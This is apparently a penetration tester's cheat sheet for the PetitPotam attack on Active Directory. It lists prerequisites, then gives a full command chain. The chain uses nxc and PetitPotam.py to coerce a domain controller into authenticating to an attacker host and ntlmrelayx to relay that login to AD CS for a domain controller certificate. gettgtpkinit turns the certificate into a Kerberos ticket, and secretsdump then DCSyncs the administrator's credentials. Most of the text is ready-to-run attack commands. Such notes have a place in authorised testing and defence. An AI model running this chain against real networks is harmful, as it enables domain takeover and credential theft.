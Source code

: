 ```yaml
---
tags:
  - AD
---
```


## Attack requirements

| Feature / Component       | Required for PetitPotam | Required for Full Relay to DA via AD CS |
| ------------------------- | ----------------------- | --------------------------------------- |
| EFSRPC                    | ✅ Yes                   | ✅ Yes                                   |
| NTLM Enabled              | ✅ Yes                   | ✅ Yes                                   |
| SMB/LDAP Signing Disabled | ✅ Yes (on relay target) | ✅ Yes (on certsrv or LDAP)              |
| AD CS Installed           | ❌ No                    | ✅ Yes                                   |
| Vulnerable AD CS Template | ❌ No                    | ✅ Yes                                   |
| EPA / Channel Binding Off | ❌ No                    | ✅ Yes                                   |

## Identify
---
```bash
nxc smb <ip> -u '' -p '' -M coerce_plus -o METHOD=PetitPotam
```
shorthand
```bash
nxc smb <ip> -u '' -p '' -M coerce_plus -o M=pe
```

## Exploit
---
[https://github.com/topotam/PetitPotam](https://github.com/topotam/PetitPotam)
[https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-Petitpotam.ps1](https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-Petitpotam.ps1)  
## Start ntlmrelayx
---
```PowerShell
sudo ntlmrelayx.py -debug -smb2support --target http://CA01.domain.local/certsrv/certfnsh.asp --adcs --template DomainController
```
At the same time try to coerce DC to auth
```PowerShell
python3 PetitPotam.py <attackerIP> <DCIP>
```
OR coerce with nxc
```bash
nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP> M=pe
```

You should receive a base64 encoded certificate in ntlmrelayx output
Next, we can take this base64 certificate and use `gettgtpkinit.py` to request a Ticket-Granting-Ticket (TGT) for the domain controller.
```PowerShell
python3 /opt/PKINITtools/gettgtpkinit.py DOMAIN.LOCAL/DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache
```
Set krb env variable
```PowerShell
export KRB5CCNAME=dc01.ccache
```
Attempt DCSync
```PowerShell
impacket-secretsdump -just-dc-user DOMAIN/administrator -k -no-pass "DC01$"@DC01.DOMAIN.LOCAL
```